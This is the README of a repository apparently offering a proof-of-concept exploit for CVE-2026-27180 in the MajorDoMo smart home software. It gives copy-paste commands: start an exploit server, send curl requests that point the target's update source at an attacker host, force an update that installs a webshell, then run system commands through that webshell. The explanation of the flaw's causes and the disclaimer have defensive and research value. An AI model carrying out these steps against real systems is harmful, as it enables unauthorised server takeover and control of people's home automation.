

# MajorDoMo RCE (CVE-2026-27180)


[](https://www.python.org/)
[](https://opensource.org/licenses/MIT)
[](https://www.vulncheck.com/advisories/majordomo-supply-chain-remote-code-execution-via-update-url-poisoning)
[](https://www.exploit-db.com/)

**Unauthenticated Remote Code Execution via Update URL Poisoning in MajorDoMo**

**CWE-494** – Download of Code Without Integrity Check  
**Impact**: Full server compromise via webshell placed in web root  
**Authentication Required**: None  
**Patch**: [PR #1177](https://github.com/sergejey/majordomo/pull/1177)

## 📜 Description

This repository contains a proof-of-concept exploit for **CVE-2026-27180** – a critical unauthenticated remote code execution vulnerability in **MajorDoMo** smart home automation software.

An attacker can:

- Poison the update source URL without authentication
- Force an update that downloads and extracts a malicious tarball
- Place arbitrary PHP files (including webshells) directly into the web root

The vulnerability exists because:

- No authentication check on `auto_update_settings` and `force_update` modes
- No TLS certificate validation (`CURLOPT_SSL_VERIFYPEER = false`)
- No signature / integrity check on downloaded update packages
- Extracted files are copied recursively into the document root

## 🛠️ Features

- All-in-one Python script (no external files needed)
- Malicious Atom feed + tarball generated in memory
- Password-protected multi-method webshell (`poc.php`)
- Optional `.htaccess` to force PHP execution
- Clean console output with copy-paste commands

## 🚀 Installation

```bash
git clone https://github.com/YOUR-USERNAME/majordomo-cve-2026-27180-exploit.git
cd majordomo-cve-2026-27180-exploit
# No pip install needed – uses only standard library + argparse
```

## 📊 PoC Attack Flow


## 🖥️ Usage

Start the malicious server:

```bash
python3 exploit.py http://192.168.1.50:80 --lhost 192.168.1.100 --lport 8080
```

After the server starts, run these commands **against the target**:

```bash
# 1. Poison the update source
curl 'http://192.168.1.50:80/objects/?module=saverestore&mode=auto_update_settings&set_update_url=http://192.168.1.100:8080'

# 2. Trigger the forced update
curl 'http://192.168.1.50:80/objects/?module=saverestore&mode=force_update'
```

Wait 10–90 seconds, then test the webshell:

```bash
# Examples:
http://192.168.1.50/poc.php?pass=ChangeMe123&cmd=id
http://192.168.1.50/poc.php?pass=ChangeMe123&cmd=whoami
http://192.168.1.50/poc.php?pass=ChangeMe123&cmd=uname%20-a
```

## ⚠️ Legal & Ethical Notice

**This code is provided strictly for educational purposes, authorized security testing, and red teaming activities.**

- Do **NOT** use this exploit against systems you do not own or have explicit written permission to test.
- Unauthorized use may violate laws including the Computer Fraud and Abuse Act (CFAA) and equivalents worldwide.
- The author is not responsible for any misuse or damage caused by this code.

## 📄 License

MIT License

Copyright © 2026 Mohammed Idrees Banyamer

Permission is hereby granted, free of charge, to any person obtaining a copy of this software and associated documentation files (the "Software"), to deal in the Software without restriction, including without limitation the rights to use, copy, modify, merge, publish, distribute, sublicense, and/or sell copies of the Software, and to permit persons to whom the Software is furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.
